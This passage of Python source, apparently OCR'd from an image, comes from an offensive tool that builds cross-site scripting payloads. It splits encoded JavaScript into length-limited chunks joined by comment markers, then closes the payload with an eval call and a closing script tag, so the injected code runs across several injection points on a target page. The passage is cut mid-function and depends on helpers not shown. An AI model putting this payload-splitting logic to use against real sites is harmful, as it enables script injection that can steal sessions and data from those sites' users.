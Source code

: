         # there is always space for the ; at the end, since it takes
        # the place of the + on previous lines
        encoded = '%s%s%s%s' % (setup_prefix, quote,
                sep.join(lines), quote)
        lines = encoded.rsplit('\n',1)
        
        # setup_suffixes[0] will be added to the last line, split
        # to max_len and joined with a comment
        # setup_suffixes[1], if present, will be joined at the end
        # with a newline
        if max_len == 10:
            # if there is no space for */</script> we'll end the
            # last line with a semicolon instead of /*
            # there will be JavaScript errors due to random content on
            # the page between the last two payload chunks
            setup_suffixes = [';eval(%s);' % dummy_var, '</script>']
        else:
            # otherwise split the whole suffix and put comments
            # between each chunk
            setup_suffixes = [';eval(%s)</script>' % dummy_var]
        
        # hold on to the last two characters of setup_suffixes[0]
        # and the first two characters of lines[-1]
        # since there will be no /* at the end and no extra */ at the
        # beginning
        # len(comment)+1 is to compensate for the newline
        to_add = split_to_len(lines[-1][2:]+setup_suffixes[0][:-2],
            count=max_len-len(comment)+1,
            no_split_on='(\\\\.|eval|\(%s(?:\)|$)|</[a-z]+)' % dummy_var)
        to_add[0] = lines[-1][:2] + to_add[0]
        to_add[-1] = to_add[-1] + setup_suffixes[0][-2:]
        